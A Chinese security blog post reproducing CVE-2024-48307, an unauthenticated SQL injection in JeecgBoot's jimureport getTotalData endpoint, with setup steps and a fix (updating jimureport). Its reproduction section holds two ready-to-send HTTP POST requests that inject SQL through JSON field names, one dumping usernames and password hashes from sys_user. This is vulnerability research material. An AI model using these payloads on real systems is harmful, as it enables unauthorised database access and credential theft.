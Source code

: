 #  CVE-2024-48307：JeecgBoot SQL注入漏洞   
 进击的HACK   2024-12-17 23:55  
  
> 关注我们❤️，添加星标🌟，一起学安全！作者：hexixi@Timeline Sec 本文字数：2248阅读时长：2～4mins声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
JeecgBoot是一款基于BPM的低代码平台！前后端分离架构 SpringBoot 2.x/3.x，SpringCloud，Ant Design&Vue3，Mybatis-plus，Shiro，JWT，支持微服务。具有代码生成器、权限管理、工作流引擎、监控报警、数据大屏等功能，可以帮助开发人员快速搭建企业级应用系统。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2024-48307**  
  
JeecgBoot v3.7.1中的/onlDragDatasetHead/getTotalData组件发现存在SQL注入漏洞。攻击者可以无需权限利用  
jimureport-dashboard-spring-boot-starter-1.8.1-beta.jar  
查询数据库，导致数据库信息泄露。  
## 0x03 影响版本  
  
jimureport-spring-boot-starter.version<=1.8.1  
## 0x04 环境搭建  
  
https://github.com/jeecgboot/JeecgBoot/releases  
  
idea部署后端  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshQS4yNUOlZ2hps5iaEAJaKIGY0qnJzTgcbpBgMBroPV9yd8H7DBib0MEZgzgTqCAqqbxBmmsNcUjsQ/640?wx_fmt=png&from=appmsg "")  
  
进入jeecgboot-vue3目录下执行pnpm dev命令开启前端  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshQS4yNUOlZ2hps5iaEAJaKIumBicrLRLQmf932JNtmDftp2GDdP2IHLICQKicOa2XLvicuCtzJrGoYRw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshQS4yNUOlZ2hps5iaEAJaKIqCGLoCpJdmSvQq93P6azdZdggKcC3Cm96ibUEcDxjpXte99ibBR5kxFQ/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
访问http://IP:8080/jeecg-boot/drag/onlDragDatasetHead/getTotalData可以发现服务可用，不能以get方式访问  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshQS4yNUOlZ2hps5iaEAJaKItMW92yWUNZc8qp1HwrBibaSfaR4sjjJN0uzpUdn7nykmibW22Zcx4Dzw/640?wx_fmt=png&from=appmsg "")  
  
根据源码构建json数据，尝试访问sys_user表的id  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshQS4yNUOlZ2hps5iaEAJaKISwKtIsuVTr0az5hy7eqBbicfm6jk6LSkK4RtxHB7GibiaoDZuFV5vkhPw/640?wx_fmt=png&from=appmsg "")  
```
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: IP:8080
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 296
Content-Type: application/json

{"tableName": "sys_user", "compName": "test", "condition": {"filter": {}}, "config": {"assistValue": [], "assistType": [], "name": [{"fieldName": "concat(id)", "fieldType": "string"}, {"fieldName": "id", "fieldType": "string"}], "value": [{"fieldName": "id", "fieldType": "string"}], "type": []}}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshQS4yNUOlZ2hps5iaEAJaKI43FJn7njDSKBG10LUUV3P2MntKdiaJFGPcvIe8Mfe69xiceic1UmicI6Fg/640?wx_fmt=png&from=appmsg "")  
  
查询username和password  
```
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: IP:8080
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 311

{"tableName": "sys_user", "compName": "test", "condition": {"filter": {}}, "config": {"assistValue": [], "assistType": [], "name": [{"fieldName": "concat(username,0x3a,password)", "fieldType": "string"}, {"fieldName": "id", "fieldType": "string"}], "value": [{"fieldName": "id", "fieldType": "1"}], "type": []}}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshQS4yNUOlZ2hps5iaEAJaKIH7SaibeBibKTDJmTQG5gUOmySFSZGNKEPVpDlPIM93KT4nxleKW4Nm4w/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
更新插件  
jimureport到最新版本。  
## 参考链接  
  
https://help.jeecg.com/setup/startup.html  
## 历史漏洞  
  
CNVD-2023-69437CVE-2023-6307CVE-2023-4450CVE-2023-42268CVE-2023-41578CVE-2023-41544CVE-2023-41543CVE-2023-41542CVE-2023-40989CVE-2023-38992CVE-2023-34659CVE-2023-34603CVE-2023-34602CVE-2023-24789CVE-2023-1784CVE-2023-1741CVE-2023-1454  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群回复  
【SRC群】进入SRC-QQ交流群回复  
【新人】领取新人学习指南资料回复  
【面试】获取渗透测试常见面试题  
  
回复  
【手册】  
获取原创技术PDF手册  
  
回复  
【合作】获取各类安全项目合作方式回复  
【帮会】付费加入SRC知识库学习回复  
【  
培训】  
获取TimelineSec创办的实战课程  
  
  
视频号：搜索  
TimelineSec  
  
官方微博：[#小程序://微博/tPbUYdN9EucSD4C]()  
  
  
哔哩哔哩：  
https://space.bilibili.com/52459  
‍1903  
  
  
  
❤  
  
觉得有用就点个赞吧！  
  
欢迎评论区留言讨论～  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OkhKF2m1syrmlAus2fxnsxZBk4oIuTvAVIaL6pKgic5DEa8ynqo44GUwNML3ggkqMpbE1fiaLYvpPzeBrQJCS5bA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
